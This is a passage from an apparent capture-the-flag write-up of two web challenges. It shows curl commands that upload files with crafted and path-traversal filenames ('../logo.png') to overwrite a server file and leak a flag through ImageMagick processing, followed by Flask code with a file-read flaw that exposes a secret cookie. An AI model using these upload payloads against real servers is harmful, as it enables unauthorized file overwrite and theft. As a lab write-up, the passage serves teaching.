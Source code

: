 clear the uploads folder for a clean slate by uploading a 'dangerous' file:
```bash
curl -F 'file=@logo.png;filename=dangerousnoextensionfile1!!' http://play.scriptsorcerers.xyz:12345/upload
```

upload via `curl`, renaming the file to `../logo.png` on the server (since it's impossible to name it that on an operating system) and overriding the `logo.png` on the server:
```bash
curl -F 'file=@logo.png;filename=../logo.png' http://play.scriptsorcerers.xyz:12345/upload
```

we can then force the `convert` executable to run by accessing the `/logo-sm` endpoint, then download the modified `logo.png`.

within the profile of the modified image will be the hexed flag (image borrowed)

![hexed](/images/scriptctf_images/wizard_gallery/hex.webp)

which we can decode to obtain the flag

flag: `scriptCTF{t00_much_m46ic_9faf01c3378a}`

## > Renderer (Web)
The source code is simple. We can read any file within the `/uploads` directory:
```python
@app.route('/render/<path:filename>')
def render(filename):
    return render_template('display.html', filename=filename)
```

The flag is not within `/uploads`, but is shown at the `/developer` endpoint:
```python
@app.route('/developer')
def developer():
    ...
    c = open('./static/uploads/secrets/secret_cookie.txt','w')
    c.write(sha256(os.urandom(16)).hexdigest())
    c.close()
    return f"Welcome! There is currently 1 unread message: {open('flag.txt').read()}"
    ...
```

The dashboard can be accessed if the browser's cookie `developer_secret_cookie` is equal to the value of the cookie stored on the server, which happens to be stored in `uploads/secrets/secret.cookie.txt`:

![filesystem](/images/scriptctf_images/filesystem.png)
